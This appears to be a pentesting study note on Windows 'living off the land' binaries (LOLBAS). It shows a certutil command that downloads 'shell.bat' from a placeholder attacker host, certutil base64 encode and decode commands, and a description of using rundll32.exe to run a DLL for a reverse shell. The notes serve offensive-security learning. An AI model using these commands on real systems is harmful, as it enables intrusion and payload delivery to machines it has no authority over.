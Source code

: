 ```yaml
---
title: Windows binaries -  LOLBAS
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - privilege escalation
  - windows
---
```


# Windows binaries -  LOLBAS 

Equivalent to [suid binaries from linux](suid-binaries.md) in Windows would be: [LOLBAS: https://lolbas-project.github.io/](https://lolbas-project.github.io/) (Living Off The Land Binaries, Scripts and Libraries),

 Each of these binaries, scripts and libraries is a Microsoft-signed file that is either native to the operating system or can be downloaded directly from Microsoft and have unexpected functionality useful to an attacker.

## Transferring File with Certutil

One classic example is [certutil.exe](certutil.md), whose intended use is for handling certificates but can also be used to transfer files by either downloading a file to disk or base64 encoding/decoding a file.

Import a file (type from your windows target host):

```powershell
certutil.exe -urlcache -split -f http://$ipAtacker:8080/shell.bat shell.bat
```

Encode to base64:

```cmd
certutil -encode file1 encodedfile
```

Decode a file:

```cmd
certutil -decode encodedfile file2
```


## Execute a DLL file with rundll32.exe

A binary such as [rundll32.exe](https://lolbas-project.github.io/lolbas/Binaries/Rundll32/) can be used to execute a DLL file. 

We could use this to obtain a reverse shell by executing a .DLL file that we either download onto the remote host or host ourselves on an SMB share.

